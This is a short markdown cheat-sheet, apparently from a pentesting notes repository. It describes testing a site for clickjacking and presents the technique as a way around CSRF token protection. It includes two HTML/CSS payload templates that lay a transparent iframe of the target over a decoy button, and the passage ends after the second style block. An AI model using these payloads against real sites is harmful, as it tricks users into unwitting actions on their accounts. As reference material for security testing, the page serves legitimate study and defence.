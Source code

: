 - Inspect the response headers.
- Is there any `CSP` (content security policy) ?
- Try to `iframe` the website in a webpage.

### Bypassing `CSRF` token protection.

- Create a web page and include an `iframe` pointing to the target website. 
- Create a button and align it with the iframe.
- Make the iframe transparent with `css`.

When the user will click on the button, it will trigger the button inside the `iframe`.

- Example of payload:
	```
	<style>
	   iframe {
	       position:relative;
	       width: 500px;
	       height: 700px;
	       opacity: 0;
	       z-index: 2;
	   }
	   div {
	       position:absolute;
	       top:$top_value;
	       left:$side_value;
	       z-index: 1;
	   }
	</style>
	```

	```
	<div>Test me</div>
	<iframe src="$url"></iframe>
	```

- Another payload but with the url param already filled

	```
	<style>
	   iframe {
	       position:relative;
	       width: 500px;
	       height: 700px;
	       opacity: 0;
	       z-index: 2;
	   }
	   div {
	position: absolute;
	    top: 456px;
	    left: 44px;
	    z-index: 1;
	    background: green;
	    color: white;
	    border-radius: 20px;
	    padding: 0.45em 2.2em;
	}
	}
	</style>
	```
